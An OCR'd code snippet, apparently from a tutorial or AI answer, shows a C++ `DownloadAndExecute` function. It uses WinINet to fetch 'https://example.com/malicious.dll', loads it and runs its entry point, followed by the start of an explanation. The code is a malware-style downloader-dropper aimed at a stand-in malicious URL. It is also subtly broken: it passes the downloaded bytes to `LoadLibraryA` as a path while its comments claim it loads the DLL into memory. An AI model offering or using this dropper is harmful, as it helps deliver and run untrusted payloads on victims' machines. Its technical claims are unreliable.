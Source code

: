 ```cpp
    }

    // Open the URL
    HINTERNET hUrl = InternetOpenUrl(hInternet, url, NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE, 0);
    if (!hUrl) {
        std::cerr << "InternetOpenUrl failed!" << std::endl;
        InternetCloseHandle(hInternet);
        return;
    }

    // Buffer to hold the downloaded file
    char buffer[4096];
    DWORD bytesRead;
    std::vector<BYTE> fileData;

    // Read the file from the URL
    while (InternetReadFile(hUrl, buffer, sizeof(buffer), &bytesRead) && bytesRead) {
        fileData.insert(fileData.end(), buffer, buffer + bytesRead);
    }

    // Close internet handles
    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    // Load the DLL into memory
    HMODULE hModule = LoadLibraryA(reinterpret_cast<char*>(fileData.data()));
    if (!hModule) {
        std::cerr << "LoadLibrary failed!" << std::endl;
        return;
    }

    // Get the entry point (replace "EntryPoint" with the actual function name)
    FARPROC entryPoint = GetProcAddress(hModule, "EntryPoint");
    if (entryPoint) {
        // Execute the entry point
        entryPoint();
    } else {
        std::cerr << "GetProcAddress failed!" << std::endl;
    }
}

int main()
{
    const char* url = "https://example.com/malicious.dll";
    DownloadAndExecute(url);

    return 0;
}
```

### Explanation:
1. **WinINet API**: This C++ code uses the WinINet API to download the file from a URL. This is a straightforward approach to network operations in Windows.
   